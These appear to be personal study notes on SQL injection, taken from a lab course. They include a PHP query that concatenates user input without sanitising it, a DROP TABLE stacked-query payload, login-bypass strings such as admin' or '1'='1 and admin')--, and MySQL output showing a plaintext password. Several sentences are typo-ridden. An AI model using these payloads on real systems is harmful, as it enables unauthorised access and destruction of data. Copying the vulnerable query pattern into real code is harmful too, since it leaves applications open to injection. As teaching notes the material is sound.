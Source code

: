An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input. The previous example showed how user-input can be used within an SQL query, and it did not use any form of input sanitization:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```
In this case we control the input inside the brackets
```sql
%$searchInput
```
So if we close the quotes like
```php
'%1'; DROP TABLE users;'
```
it becomes:
```sql
select * from logins where username like '%1'; DROP TABLE users;'
```
![[Pasted image 20241111204042.png]]

### Login
So we got
```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
``` 

to confirm if it's vulnerable
:

|Payload|URL Encoded|
|---|---|
|`'`|`%27`|
|`"`|`%22`|
|`#`|`%23`|
|`;`|`%3B`|
|`)`|`%29`|

So if we submit this
```sql
admin' or '1'='1
```
as the username, it becomes
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

- If username is `admin`  
    `OR`
- If `1=1` return `true` 'which always returns `true`'  
    `AND`
- If password is `something`
The `AND` operator will be evaluated first, and it will return `false`. Then, the `OR` operator would be evalutated, and if either of the statements is `true`, it would return `true`. Since `1=1` always returns `true`, this query will return `true`, and it will grant us access.
To successfully login, to the account the thing afte and should be true too, or bi commited at least ![[Pasted image 20241111204934.png]]
Just like any other language, SQL allows the use of comments as well. Comments are used to document queries or ignore a certain part of the query. We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/` (though this is not usually used in SQL injections). The `--` can be used as follows:
SQL supports the usage of parenthesis if the application needs to check for particular conditions before others.
```mysql
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)

```
SQL suport uses of paranthesis to tell the SQL when to do some process first, this mean our commit could cause an syntax error so instead of `admin'--` we should do `admin')--` 

Executing query: SELECT * FROM logins WHERE (username='admin')-- '' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';

Executing query: SELECT * FROM logins WHERE (username='admin')--' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
